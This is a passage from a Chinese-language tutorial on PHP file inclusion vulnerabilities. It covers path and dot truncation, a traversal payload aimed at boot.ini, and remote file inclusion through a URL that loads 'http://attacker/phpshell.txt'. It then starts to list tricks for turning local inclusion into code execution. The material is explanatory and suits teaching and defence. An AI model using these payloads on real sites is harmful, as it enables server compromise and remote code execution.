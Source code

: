 或者

`////////////////////////passwd`

又或者

`../1/abc/../1/abc/../1/abc..`

 (php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)

### 点号截断

`?file=../../../../../../../../../boot.ini/………[…]…………`

(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)

## 普通远程文件包含

如果PHP的配置选项allow_url_include为ON的话（默认是关闭的），则include/require函数是可以加载远程文件的，这种漏洞被称为远程文件包含漏洞（Remote File Inclusion，简称RFI）

例如：

```php
<?php
if($route == "share"){
  require_once $basePath .'/action/m_share.php';
}
elseif($route == "sharelink"){
  require_once $basePath ./'action/m_sharelink.php';
}
?>
```

在$basePath前没有设置任何障碍，因此攻击者可以构造类似如下的恶意URL：

```
/?param=http://attacker/phpshell.txt?
```

最终加载的代码实际上执行了：

```
require_once 'http://attacker/phpshell.txt?/action/m_share.php';
```

问号后面的代码最终被解释成URL的querystring（查询用字符串）,这也算一种截断方式，这是利用远程文件包含漏洞时的常见技巧。同样，%00也可以作为截断符号。



## 本地文件包含的利用技巧

本地文件包含漏洞，是有机会执行php代码的，但这取决于一些条件

经过不懈研究，安全研究者总结出了一下几种常见的技巧，用于本地文件包含后执行php代码。

（1）包含用户上传的文件

（2）包含data://或php://input等伪协议
